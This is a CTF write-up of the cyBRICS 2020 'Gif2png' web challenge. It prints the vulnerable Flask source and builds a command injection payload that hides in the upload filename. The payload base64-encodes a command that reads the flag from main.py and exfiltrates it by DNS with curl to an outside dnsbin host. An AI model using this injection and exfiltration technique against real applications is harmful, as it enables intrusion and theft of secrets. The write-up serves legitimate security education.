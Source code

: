 ```yaml
---
layout: post
title: "cyBRICS CTF 2020 - Gif2png"
description: "Resolution of the cyBRICS CTF challenge named Gif2png"
tags: [ctf,web,cybricsctf]
---
```


<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-00-0ede9e305950712e679e89bb1e99939bceb88e58ae733ccf1047f6dba0e458fb.jpg">

Gif2Png is an easy web challenge from `cyBRICS CTF 2020`, an interesting web challenge that teaches you `command injection` through image's filename.

The challenge had the following description/details: 

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-01-19a95b1d764ce4a33d90e54c311910ba49d3443274d8c46e9a2048f20a87b2fc.png">

A copy of the original web application's source code is available on: [gif2png.tar.gz](https://mega.nz/file/oMJnVAbR#qkUfgCsgjhkueLh9dOeKc_7Pm1BXzwacspLZxjvLB5Q)

The challenge web page:

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-02-bca1ccb08ee990ca148bb270822bcfd4eb521cf5b3954a923b153bb83e05be4c.png">

It seems that the web application slices the gif into frames and display them on the screen:

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-03-f19871cac5a882c348b311abdaaa4f860eb0fb5fc2fd43149313ba7c4d3ea066.png">

So now let's check the source code of the web application to understand how it is done.

This is the source code of the main file, named `main.py`:

```python
import logging
import re
import subprocess
import uuid
from pathlib import Path

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory
from flask_bootstrap import Bootstrap
import os
from werkzeug.utils import secure_filename
import filetype


ALLOWED_EXTENSIONS = {'gif'}

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['SECRET_KEY'] = '********************************'
app.config['MAX_CONTENT_LENGTH'] = 500 * 1024  # 500Kb
ffLaG = "cybrics{********************************}"
Bootstrap(app)
logging.getLogger().setLevel(logging.DEBUG)

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    logging.debug(request.headers)
    if request.method == 'POST':
        if 'file' not in request.files:
            logging.debug('No file part')
            flash('No file part', 'danger')
            return redirect(request.url)

        file = request.files['file']
        if file.filename == '':
            logging.debug('No selected file')
            flash('No selected file', 'danger')
            return redirect(request.url)

        if not allowed_file(file.filename):
            logging.debug(f'Invalid file extension of file: {file.filename}')
            flash('Invalid file extension', 'danger')
            return redirect(request.url)

        if file.content_type != "image/gif":
            logging.debug(f'Invalid Content type: {file.content_type}')
            flash('Content type is not "image/gif"', 'danger')
            return redirect(request.url)

        if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
            logging.debug(f'Invalid symbols in filename: {file.content_type}')
            flash('Invalid filename', 'danger')
            return redirect(request.url)

        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))

            mime_type = filetype.guess_mime(f'uploads/{file.filename}')
            if mime_type != "image/gif":
                logging.debug(f'Invalid Mime type: {mime_type}')
                flash('Mime type is not "image/gif"', 'danger')
                return redirect(request.url)

            uid = str(uuid.uuid4())
            os.mkdir(f"uploads/{uid}")

            logging.debug(f"Created: {uid}. Command: ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"")

            command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
            command.wait(timeout=15)
            logging.debug(command.stdout)

            flash('Successfully saved', 'success')
            return redirect(url_for('result', uid=uid))

    return render_template("form.html")


@app.route('/result/<uid>/')
def result(uid):
    images = []
    for image in os.listdir(f"uploads/{uid}"):
        mime_type = filetype.guess(str(Path("uploads") / uid / image))
        if image.endswith(".png") and mime_type is not None and mime_type.EXTENSION == "png":
            images.append(image)

    return render_template("result.html", uid=uid, images=images)


@app.route('/uploads/<uid>/<image>')
def image(uid, image):
    logging.debug(request.headers)
    dir = str(Path(app.config['UPLOAD_FOLDER']) / uid)
    return send_from_directory(dir, image)


@app.errorhandler(413)
def request_entity_too_large(error):
    return "File is too large", 413


if __name__ == "__main__":
    app.run(host='localhost', port=5000, debug=True, threaded=True)
{% endhighlight %}
```

What caught my attention was the line 104:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

This can be very insecure because the web application is passing an user input to be executed as system command. (`file.filename`)

There's a small condition that checks for some characters on filename and blocks the upload:

```python
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
  logging.debug(f'Invalid symbols in filename: {file.content_type}')
  flash('Invalid filename', 'danger')
  return redirect(request.url)
```

So now we need to exploit this weak point.

The very first thing we need to do is stop the actual ffmpeg command and execute another one, to do this we need to escape the `'` quotes and append another command.

I found a way to bypass the filename verification using double pipelines to execute my system command, the malicious filename will look something like this:

> `MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||'`

```shell
ffmpeg -i 'uploads/MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||' "uploads/{uid}/%03d.png\"
```

There's a final problem: how to inject system commands through filename and bypass the filename check? `Encoding the payload with base64, decoding and executing on the fly!`

> `echo d2hvYW1pO2lkO3NsZWVwIDEw|base64 -d|sh`

Unfortunatelly, the challenge server had a firewall blocking reverse shells and requests to the external resources through port 80.
So I came with the idea of exfiltrating the flag (inside the main.py) through DNS using `dnsbin.zhack.ca`:

> `flag=$(cat main.py|grep -wo cybrics{.*|base64|tr -d '=');curl $flag.a0325542a59398d0bda8.d.zhack.ca`

The flag is extracted from the main.py and sent through DNS using DNSBin, all we need to do is encode the above command as base64 and rename the file:

The encoded payload:

> `ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh`

The 2nd part:

> `echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh`

The final filename:

> `nullarmor'||echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh||'.gif`

Now we just renamed a gif file with the malicious filename and uploaded it on the Gif2png web application!

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-04-bab35abb8f097541da9a97cabfe9d2c07e8434155e5fe0063f2e406835b4ff16.png">

Done, after 5 seconds the base64 encoded flag will be sent through DNS!

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-05-0fad89d37c65771ad393721f96bd70d33d2f0776a76f4e901eee464832ced680.png">

# Flag:
``` cybrics{imagesaresocoolicandrawonthem}```

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-06-0069647c11ff4ae14468d1673853c5adb6549af2350dfe82528b25e98fea8f07.png">

